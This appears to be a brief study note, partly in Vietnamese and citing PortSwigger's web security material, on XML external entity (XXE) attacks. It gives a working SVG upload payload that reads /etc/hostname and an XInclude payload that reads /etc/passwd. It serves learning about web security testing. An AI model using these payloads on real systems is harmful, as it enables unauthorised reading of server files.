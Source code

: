 **References**: https://portswigger.net/web-security/xxe

# XXE attacks via file upload (.svg)
```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

# XInclude attacks
Khi ta chỉ kiểm soát được 1 phần của xml document(không declared được doctype)
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


# XXE attacks via modified content type
curious --> read it yourself
